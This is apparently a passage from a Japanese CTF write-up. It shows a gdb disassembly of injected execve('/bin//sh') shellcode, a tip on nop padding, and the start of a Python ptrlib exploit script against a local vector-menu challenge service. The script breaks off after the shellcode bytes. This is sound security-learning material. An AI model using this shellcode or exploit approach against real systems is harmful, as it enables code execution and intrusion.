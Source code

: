 ```
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fdb7e7c1cb2 in ?? ()
(gdb) x/4i $rip
=> 0x7fdb7e7c1cb2:	jmp    0x7fdb7e7c1ce8
   0x7fdb7e7c1cb4:	add    %al,(%rax)
   0x7fdb7e7c1cb6:	add    %al,(%rax)
   0x7fdb7e7c1cb8:	and    %eax,(%rax)
(gdb) x/16i 0x7fdb7e7c1ce8
   0x7fdb7e7c1ce8:	nop
   0x7fdb7e7c1ce9:	nop
   0x7fdb7e7c1cea:	xor    %rax,%rax
   0x7fdb7e7c1ced:	push   %rax
   0x7fdb7e7c1cee:	xor    %rdx,%rdx
   0x7fdb7e7c1cf1:	nop
   0x7fdb7e7c1cf2:	xor    %rsi,%rsi
   0x7fdb7e7c1cf5:	movabs $0x68732f2f6e69622f,%rbx
   0x7fdb7e7c1cff:	push   %rbx
   0x7fdb7e7c1d00:	push   %rsp
   0x7fdb7e7c1d01:	pop    %rdi
   0x7fdb7e7c1d02:	mov    $0x3b,%al
   0x7fdb7e7c1d04:	syscall 
   0x7fdb7e7c1d06:	add    %al,(%rax)
   0x7fdb7e7c1d08:	add    %al,(%rax)
   0x7fdb7e7c1d0a:	add    %al,(%rax)
```
いい感じですね。
シェルコードを入れるときは各整数が0x80000000を超えないようにnopで調節してください。

```python
from ptrlib import *

def add_vec(index, size, array):
    sock.recvuntil("Your choice:")
    sock.sendline("1")
    sock.recvuntil("Index:")
    sock.sendline(str(index))
    sock.recvuntil("Size:")
    sock.sendline(str(size))
    sock.recvuntil("stop:")
    sock.sendline(' '.join(list(map(str, array))))

def remove_vec(index):
    sock.recvuntil("Your choice:")
    sock.sendline("2")
    sock.recvuntil("index:")
    sock.sendline(str(index))

def show_vec(index):
    sock.recvuntil("Your choice:")
    sock.sendline("4")
    sock.recvuntil("index:")
    sock.sendline(str(index))

sock = Socket("localhost", 9999)

shellcode  = b"\x90\x90\x48\x31"
shellcode += b"\xc0\x50\x48\x31"
shellcode += b"\xd2\x90\x48\x31"
shellcode += b"\xf6\x48\xbb\x2f"
shellcode += b"\x62\x69\x6e\x2f"
shellcode += b"\x2f\x73\x68\x53"
shellcode += b"\x54\x5f\xb0\x3b"
shellcode += b"\x0f\x05\x00\x00"
vec_shellcode = [0, 0]
```